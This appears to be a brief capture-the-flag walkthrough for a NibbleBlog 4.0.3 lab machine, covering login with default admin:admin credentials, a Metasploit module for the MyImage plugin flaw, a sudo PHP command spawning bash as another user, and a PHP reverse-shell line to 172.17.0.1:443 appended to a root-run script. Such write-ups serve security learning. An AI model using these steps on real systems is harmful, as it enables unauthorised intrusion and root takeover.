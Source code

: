 # Ports open
80
# Initial Access Method

1) Find the web app, NibbleBlog CMS, and determine that it was using default credentials, admin:admin
2) Determined the software version: 4.0.3, available on the settings page after loggin in as admin
3) Research that version of NibbleBlog, and discover that it has known hacks
4) Research the CVE for NibbleBlog, and discover that it requires the MyImage plugin to be installed
5) Install the plugin from the admin console in the Plugins section
6) Run the module available on the Metasploit console

# Privilege Esclation
1) Figure out that our user (www-data) has sudo access as the chocolate user with the PHP command
2) Use a PHP privilege escalation command to get access as the chocolate user
```
sudo -u chocolate php -r "system('/bin/bash');"
```
3) As chocolate, discover that there is a script file in the /opt directory, which we can own
4) Use the Pspy program to discover that the script in the /opt directory is being run as root
5) Add an additional to the script.php file which gives a reverse shell connection when run
```
echo '<?php $sock=fsockopen("172.17.0.1",443);system("bash <&3 >&3 2>&3"); ?>' >> script.php
```
Finis

